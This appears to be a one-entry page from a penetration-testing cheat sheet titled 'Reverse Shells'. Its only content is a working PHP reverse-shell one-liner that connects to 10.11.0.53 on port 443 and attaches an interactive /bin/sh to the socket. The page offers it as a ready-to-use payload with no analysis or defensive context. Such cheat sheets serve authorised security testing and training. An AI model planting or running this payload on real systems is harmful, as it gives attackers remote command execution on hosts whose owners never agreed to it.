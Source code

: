 ```yaml
---
description: reverse
---
```


# Reverse Shells

### PHP

```php
<?php $sock=fsockopen("10.11.0.53", 443); proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```



